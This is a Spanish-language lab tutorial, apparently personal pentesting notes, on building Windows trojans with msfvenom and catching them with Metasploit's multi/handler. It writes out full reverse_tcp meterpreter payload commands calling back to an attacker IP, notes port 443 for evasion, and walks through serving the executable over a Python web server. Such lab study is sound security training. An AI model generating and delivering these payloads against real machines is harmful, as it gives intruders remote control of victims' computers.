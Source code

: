 Vamos a crear ejecutables o archivos malicioso de tal forma que al ser ejecutados en una maquina remota podamos tener acceso remoto y hacer una intrusión.

Vamos ha hacernos usuario **root**

`sudo su`

![[Imagenes/image 17.png|image 17.png]]

  

```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=443 -f exe -o pwned.exe
```

Al ejecutar el comando generaríamos un Payload malicioso llamado pwned.exe

![[Imagenes/image 1 9.png|image 1 9.png]]

![[Imagenes/image 2 8.png|image 2 8.png]]

  

**EXPLICACION DEL COMANDO:**

### **Análisis del comando**

1. `**msfvenom**`:  
    Es una herramienta de Metasploit utilizada para generar y codificar _payloads_ (cargas útiles), las cuales son fragmentos de código malicioso que pueden ser utilizados en pruebas de penetración.
2. `**p windows/x64/meterpreter/reverse_tcp**`:
    - `**p**`: Define el _payload_ que se usará.
    - `**windows/x64/meterpreter/reverse_tcp**`: Es un _payload_ específico que genera una conexión inversa (reverse shell) en sistemas Windows de arquitectura x64 mediante TCP. Esto significa que la máquina objetivo se conecta de vuelta al atacante.
3. `**LHOST=10.0.3.4**`:
    - `**LHOST**`: Representa la dirección IP de la máquina atacante, que recibirá la conexión de la máquina comprometida.
4. `**LPORT=443**`:
    - `**LPORT**`: Indica el puerto en el que la máquina atacante estará escuchando. En este caso, el puerto 443, que es comúnmente usado por HTTPS y puede pasar inadvertido en redes mal configuradas.
5. `**f exe**`:
    - `**f**`: Especifica el formato del archivo generado. Aquí es un archivo ejecutable de Windows (**.exe**).
6. `**o pwned.exe**`:
    - `**o**`: Designa el nombre del archivo de salida. En este caso, el ejecutable se guarda con el nombre `pwned.exe`.

### **Estructura típica de comandos msfvenom**

El formato habitual para construir comandos con msfvenom es el siguiente:

```Plain
msfvenom -p <payload> [opciones del payload] -f <formato> -o <archivo_salida>
```

### **Elementos principales**:

- **Especificación del payload**: Siempre comienza con `p` seguido del tipo de carga útil (por ejemplo, `windows/x64/meterpreter/reverse_tcp`).
- **Opciones del payload**: Parámetros específicos como `LHOST` (IP local) y `LPORT` (puerto).
- **Formato de salida**: Usando `f` se define el tipo de archivo, como `exe`, `elf`, `apk`, etc.
- **Archivo generado**: Con `o` se guarda el archivo con un nombre específico.

**RECURSOS UTILES:**

- **Recurso como funciona:** [https://www.offsec.com/metasploit-unleashed/msfvenom/](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- **Recurso Payload**: [https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1)
- **Recurso creando diferentes tipos de payloads:** [https://www.nosolohacking.info/msfvenom-creando-diferentes-tipos-de-payloads/](https://www.nosolohacking.info/msfvenom-creando-diferentes-tipos-de-payloads/)

  

**Prueba de concepto contra una maquina Windows.**

==Kali Linux==

==Msf6==

==Maquina objetivo==

  

- ==Miramos el formato adecuado para utilizar en Windows==
    
      
      
    `sudo msfvenom -l format`
    
    ![[Imagenes/image 3 7.png|image 3 7.png]]
    

  

- ==**En el Metasploit**== ==Hago una búsqueda de un payload para Windows y que tenga meterpreter.==

**Arquitectura: x64 (de 64 bits), plataforma Windows, y que nos habrá una shell meterpreter (shell avanzada y multifuncional)**

`search arch:x64 platform:windows type:payload meterpreter`

![[Imagenes/image 4 6.png|image 4 6.png]]

  

- ==Miro la información de payload 13 (13 payload/windows/x64/meterpreter/reverse_tcp )==
    
    `Info 13`
    
    ![[Imagenes/image 5 6.png|image 5 6.png]]
    

  

- Después de escoger el payload creo una orden msfvenom el un terminal para crear un troyano para Windows al que voy a llamar bichopedro.exe .
    
    `sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o bichopedro.exe`
    
    ![[Imagenes/image 6 5.png|image 6 5.png]]
    

![[Imagenes/image 7 4.png|image 7 4.png]]

  

- Creamos un servidor web con Python
    
    python3 -m http.server 80
    
    ![[Imagenes/image 8 4.png|image 8 4.png]]
    

  

- Nos vamos a la maquina victima Windows y interpretamos el rol de la victima en el que se conecta a una web y se descarga un archivo.
- En el explorador metemos la IP del servidor web que hemos creado y nos descargaremos el archivo bichopero.exe.
    
    ![[Imagenes/image 9 4.png|image 9 4.png]]
    

![[Imagenes/image 10 4.png|image 10 4.png]]

![[Imagenes/image 11 3.png|image 11 3.png]]

  

- Vamos a utilizar una herramienta que forma parte de Metasploit y es el Multi handler siendo una alternativa a la herramienta Netcat.
- Cargamos el modulo Multi handler.
    
    `use /multi/handler`
    
    ![[Imagenes/image 12 3.png|image 12 3.png]]
    

`show options`

![[Imagenes/image 13 3.png|image 13 3.png]]

Rellenamos los datos que nos haga falta. En este caso Nos falta el local Host (**LHOST**) y debemos **recordar que al crear el payload especificamos el puerto en el 4444 pero si hubiéramos puesto otro puerto aquí** también **debemos especificar ese puerto de escucha en LPORT.**

  

- OJO!! Que aqui hay trampa. Recordemos que en **MSFVENOM** preparamos **un payload para recibir un meterpreter** no una shell . Eso **implica que dentro de este Payload también debo poner** que quiero recibir **una sesión de meterpreter**.
    
    ![[Imagenes/image 14 3.png|image 14 3.png]]
    
- Le decimos que cargue el mismo payload.
    
    `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    
    ![[Imagenes/image 15 3.png|image 15 3.png]]
    

`show options`

![[Imagenes/image 16 2.png|image 16 2.png]]

`set LHOST 10.0.3.4`

`show options`

![[Imagenes/image 17 2.png|image 17 2.png]]

  

- Ejecutamos el Multi handler
    
    `**run**`
    
    ![[image 18.png]]
    

  

- Ejecutamos en la maquina Windows el archivo infectado
    
    ![[image 19.png]]
    
    Recibimos una conexión de Meterpreter y estamos dentro de la maquina.
    
    ![[image 20.png]]